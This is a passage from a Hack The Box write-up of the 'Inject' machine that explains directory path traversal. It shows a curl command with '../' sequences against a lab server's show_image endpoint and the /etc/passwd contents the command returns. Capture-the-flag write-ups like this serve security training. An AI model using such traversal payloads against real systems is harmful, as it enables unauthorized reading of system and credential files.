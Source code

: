 We have observed that it did not work as expected. This could be due to the fact that it is searching for the "/etc" directory within the current directory, which may not exist.

In light of this, we will proceed to test a basic injection technique known as "Directory Path Traversal," which would allow us to navigate back several directories to reach the system root and then append "/etc/passwd". It is worth mentioning that the "/etc/passwd" file should exist if the Directory Path Traversal is successfully performed.


![](https://github.com/ElSwix/HTB-WriteUPS/blob/main/EN/Machines/Easy/Inject/img/9.png?raw=true)

We have successfully performed a Directory Path Traversal, and it appears that the file exists. However, due to the limitations of displaying only images, we are unable to view the content of the file in question.

Nevertheless, all hope is not lost. We can attempt the same request using the `curl` tool through the console:

```
elswix@parrot > curl -s 'http://10.129.35.222:8080/show_image?img=../../../../../../../../../../etc/passwd'

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
```
